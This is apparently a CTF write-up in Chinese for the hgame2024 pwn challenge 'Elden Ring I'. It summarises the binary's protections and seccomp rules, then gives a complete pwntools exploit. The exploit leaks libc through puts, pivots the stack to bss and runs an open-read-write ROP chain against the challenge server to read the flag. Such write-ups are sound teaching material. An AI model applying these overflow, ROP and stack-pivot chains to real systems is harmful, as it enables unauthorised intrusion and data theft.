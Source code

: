 ```yaml
---
title: hgame2024 week1 - Elden Ring I
date: 2024/2/6 18:23:00
tags:
    - stack pivot
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

<img src="/assets/hgame2024/hgame1seccomp.png" height="60%" width="60%">

## 解题思路

~~先看6秒落叶~~

进入`vuln`函数栈溢出，但是只有5*8字节，同时禁用了execve，只能打orw，
但是orw又需要大量的空间，因此可以先后泄露libc，栈迁移，在bss上打orw就会方便的多，
还可以方便放置"./flag"

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32297)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.symbols['read']
    vulnAddr = elf.symbols['vuln']
    popRdiAddr = 0x4013e3
    bssHigh = 0x404800
    bssStore = 0x404a00
    gadgets = ROP(libc)

    # payload 1, leak libc addr
    sh.recvuntil(b'accord.\n\n')
    sh.sendline(b'0'*0x108 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))
    print('payload 1 sent')

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    writeAddr = libcBase + libc.symbols['write']
    popRsiAddr = libcBase + gadgets.rsi.address
    popRdxAddr = libcBase + gadgets.rdx.address

    # payload 2, stack pivot to bss
    sh.recvuntil(b'accord.\n\n')
    leaveRet = 0x401290
    sh.sendline(b'0'*0x100 + p64(bssHigh) + p64(popRsiAddr) + p64(bssHigh) + p64(readPlt) + p64(leaveRet))
    print('payload 2 sent')
    sleep(0.5) # in case payload is concated

    # payload 3, do orw in bss
    sh.sendline(b'./flag\0\0' + p64(popRdiAddr) + p64(bssHigh) + p64(popRsiAddr) + p64(0) + p64(openAddr) +
                p64(popRdiAddr) + p64(3) + p64(popRsiAddr) + p64(bssStore) + p64(popRdxAddr) + p64(0x50) + p64(readPlt) +
                p64(popRdiAddr) + p64(bssStore) + p64(putsPlt))
    print('payload 3 sent')

    sh.interactive()
```
